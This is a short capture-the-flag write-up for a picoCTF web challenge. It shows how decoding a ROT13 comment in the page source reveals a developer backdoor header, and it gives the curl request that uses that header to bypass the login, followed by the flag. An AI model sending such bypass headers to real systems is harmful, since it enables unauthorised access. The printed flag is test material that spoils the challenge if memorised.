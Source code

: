 # Crack the Gate 1
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)

## Challenge information
```text
Tags: Web Exploitation, picoMini by CMU-Africa, browser_webshell_solvable
  
Description:  
We’re in the middle of an investigation.  
One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal.  
We’ve uncovered the email address he uses to log in: ctf-player@picoctf.org.  
Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked.  
But something feels off... it’s almost like the developer left a secret way in. Can you figure it out?
  
Hints:  
1. Developers sometimes leave notes in the code; but not always in plain text.
2. A common trick is to rotate each letter by 13 positions in the alphabet.  
```
## Overview
When entering the website, a login page appears  
<img width="400" height="250" alt="image" src="https://github.com/user-attachments/assets/48daae86-9317-4867-b187-33f8962fc500" />  
  
The website has provided us with an email and our job is to log in with this email  
Email: ctf-player@picoctf.org  
  
`Ctr+U` to view the page source, we see that the developer left a comment that should probably be deleted  
<img width="400" height="250" alt="image" src="https://github.com/user-attachments/assets/52d04548-5330-476e-811c-ca97fef00ecb" />  

## Solution
**Step1:** Decode  
`ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf` => This is a piece of code encoded with rot13  
After coding, this is the collected data: `NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"`   
**Step2:** Exploit  
You can use burpsuite to capture requests and send them or you can use Curl to send requests.  
In this case, I use Curl  
`curl -X POST http://amiable-citadel.picoctf.net:YourPost/login -H "Content-Type: application/json" -H "X-Dev-Access: yes" -d '{"email":"ctf-player@picoctf.org","password":"123"}'`  

## Flag 
`picoCTF{brut4_f0rc4_cbb8faa7}`




